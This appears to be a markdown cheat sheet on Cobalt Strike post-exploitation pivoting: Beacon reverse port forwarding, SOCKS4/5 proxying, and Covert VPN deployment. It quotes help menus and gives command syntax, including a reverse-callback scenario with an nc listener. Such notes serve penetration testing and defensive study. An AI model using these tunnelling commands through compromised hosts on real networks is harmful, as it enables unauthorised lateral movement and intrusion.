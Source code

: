 # Cobalt Strike

## 01 - Rportfwd (Reverse Port Forwarding)

### 1.1 - Help Menu

To bind ports for the server side.

```
beacon> help rportfwd
Use: rportfwd [bind port] [forward host] [forward port]
     rportfwd stop [bind port]

Binds the specified port on the target host. When a connection comes in,
Cobalt Strike will make a connection to the forwarded host/port and use Beacon
to relay traffic between the two connections.
```

To bind ports for the operator side.

```
beacon> help rportfwd_local
Use: rportfwd_local [bind port] [forward host] [forward port]
     rportfwd_local stop [bind port]

Binds the specified port on the target host. When a connection comes in,
Cobalt Strike will make a connection to the forwarded host/port, via your
Cobalt Strike client, and use Beacon to relay traffic between the two connections.
```

### 1.2 - Usage

#### 1.2.1 - Syntax

```
beacon> rportfwd <bind_port> <forward_host> <forward_port>

beacon> rportfwd stop <bind_port>
```

### 1.3 - Scenarios

#### 1.3.1 - Shell Handler Reverse Callback Session

```
beacon> rportfwd_local add -b 0.0.0.0:5986 -r <compromised_target_IP>:5986

beacon> rportfwd_local 5986 <compromised_target_IP> 5986

$ nc -lnvp 5986
```

## 02 - SOCKS Proxy

### 2.1 - Help Menu

```
beacon> help socks
Use: socks [stop]
     socks [port]
     socks [port] [socks4]
     socks [port] [socks5]
     socks [port] [socks5] [enableNoAuth|disableNoAuth] [user] [password]
     socks [port] [socks5] [enableNoAuth|disableNoAuth] [user] [password] [enableLogging|disableLogging]

Starts a SOCKS4a (default) or SOCKS5 server on the specified port.
This server will relay connections through this Beacon.

SOCKS5 servers can be configured with NoAuth authentication (default),
User/Password authentication, and some additional logging.

SOCKS5 Servers currently do not support GSSAPI authentication,
UDP Association, and IPV6.

Use socks stop to stop the SOCKS servers and terminate existing connections.

Traffic will not relay while Beacon is asleep. Change the sleep time with the
sleep command to reduce latency.
```

### 2.2 - Usage

Start SOCKS4A Proxy server.

```
beacon> socks <PORT> socks4
```

Start SOCKS5 Proxy server with or without authentication. You can optionally enable logging when tunneling.

```
beacon> socks <PORT> socks5 <enableNoAuth | disableNoAuth> [username] [password] [enableLogging | disableLogging]
```

Refer to [[Proxychains]]

## 03 - Convert VPN Tunnel

Note: You must have elevated privileges on the windows target.

### 3.1 - Help Menu

```
beacon> help covertvpn
Use: covertvpn [interface] [ip address]

Deploy a Covert VPN to the target's system. You must have administrator
privileges for the client to work. 

Setup an [interface] through Cobalt Strike -> VPN Interfaces. The 
[ip address] is the IP address of the target interface you want to deploy
the VPN client to.
```

### 3.2 - Usage

```
beacon> covertvpn phear0 <new_IPv4_address>

user@pentestos:~$ sudo ip address add <new_IPv4_address>/24 dev phear0
```